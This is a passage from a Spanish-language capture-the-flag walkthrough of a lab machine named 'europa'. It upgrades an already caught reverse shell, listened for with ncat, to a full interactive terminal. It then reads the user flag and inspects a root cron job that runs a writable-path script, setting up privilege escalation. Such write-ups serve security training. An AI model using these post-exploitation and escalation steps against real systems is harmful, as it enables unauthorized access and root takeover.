 Como siempre vamos a obtener un tty full interactiva,

```bash
www-data@europa:/var/www/admin$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@europa:/var/www/admin$ ^Z           
zsh: suspended  ncat -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  ncat -nlvp 443
                                reset xterm
www-data@europa:/var/www/admin$ export TERM=xterm
www-data@europa:/var/www/admin$ export SHELL=bash
```
y ahora podemos leer la primera flag `user.txt`.

```bash
www-data@europa:/var/www/admin$ cd /home/john/
www-data@europa:/home/john$ cat user.txt 
69ec17e87bcbe179e22c14a776351728
```

## ELEVACION DE PRIVILEGIOS [#](#elevacion-de-privilegios) {#elevacion-de-privilegios}

Enumerando el sistema podemos ver que se esta ejecutando una tarea a intervalos de tiempo.

```bash
www-data@europa:/home/john$ cat /etc/crontab       
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *	root	/var/www/cronjobs/clearlogs
```

Si leemos el archivo, vemos que ejecuta un script en bash `logcleared.sh`.

```bash
www-data@europa:/home/john$ cat /var/www/cronjobs/clearlogs
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```
